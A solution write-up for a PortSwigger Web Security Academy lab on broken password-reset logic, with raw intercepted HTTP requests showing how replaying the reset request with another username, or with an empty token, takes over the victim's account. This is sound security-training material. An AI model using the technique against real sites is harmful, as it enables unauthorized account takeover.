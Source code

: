 # [Lab 12: Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)

## Description

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`

---

## Solution

Login with the credentials `wiener:peter` and intercept the login request in case it is useful later.

```http
POST /login HTTP/1.1
Host: acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Cookie: session=rb68XHfH2JNq7QCemuIc1hGa36PZB37D
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Dnt: 1
Referer: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

After successfully logging in, an account screen is rendered that displays the current user's email address along with the option to update the user account's email address.

![](images/Pasted%20image%2020210814161100.png)

Log back out and return to the login page. This time, choose the `Forgot Password?` option. A prompt to enter the username or email address is rendered.

![](images/Pasted%20image%2020210814161341.png)

Enter the username `wiener` and intercept the request.

```http
POST /forgot-password HTTP/1.1
Host: acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Cookie: session=4s7kUoHhSV1LEZ3qjjuIBsNHAoTzbS84
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Dnt: 1
Referer: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener
```

Navigate to `wiener`'s email client. An email has been generated with the following password reset link: `https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq`. The token appears to be fairly random and not merely an encoded blob of user account data (i.e., `base64(username)`). Follow the link to be taken to a new form to change the password.

![](images/Pasted%20image%2020210814162049.png)

Submit the form with `peter` as the new password and intercept the request

```http
POST /forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq HTTP/1.1
Host: acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Cookie: session=4s7kUoHhSV1LEZ3qjjuIBsNHAoTzbS84
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Dnt: 1
Referer: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq&username=wiener&new-password-1=peter&new-password-2=peter
```

The token is embedded both as a query parameter and in the body of the request. A successful submission yields a 302 redirect to `/`.

Go for an easy win. Perhaps the `POST /forgot-password` endpoint doesn't actually check to make sure `temp-forgot-password-token` is associated with the `username` from the body. Attempt to replay this request but change `username` to `carlos`.

```http
POST /forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq HTTP/1.1
Host: acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Cookie: session=4s7kUoHhSV1LEZ3qjjuIBsNHAoTzbS84
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net
Dnt: 1
Referer: https://acfb1f001fe39dd980fa7ca4008100b4.web-security-academy.net/forgot-password?temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

temp-forgot-password-token=iqjRxSMWGiXVQ8ghE0hBVciYVcUAasDq&username=carlos&new-password-1=peter&new-password-2=peter
```

The response is a 302 redirect to `/`, indicating a successful password change. Go back to the login screen and login with the credentials `carlos:peter` to complete the challenge.

---

## Understanding the Backend

What exactly is the backend doing wrong, though? It's either:

1. Ignoring `temp-forgot-password-token` altogether and simply changing the password of `username`.
2. Not ensuring there's an association between `temp-forgot-password-token` and `username` in the database.

To determine if it's #1, forward the request with username `carlos` and a new password. Remove `temp-forgot-password-token` from the query parameter, from the body, and from both, and see if any of these three requests actually changes the password.

Attempting the request with just `temp-forgot-password-token` in the body yields a successful password change. Attempting the request with just the token in the query parameter and not at all results in no password change. This indicates that the backend isn't completely ignoring the token, ruling out option #1.

To determine if it's #2, first determine if *any* token can be used with the username `carlos` by submitting requests with a modified token.

It looks like even any empty token yields a successful password change! This indicates that the backend server is simply checking the existence of the `temp-forgot-password-token` body parameter and isn't actually checking its value! As long as that parameter exists, it proceeds to change `username`'s password! Yikes!
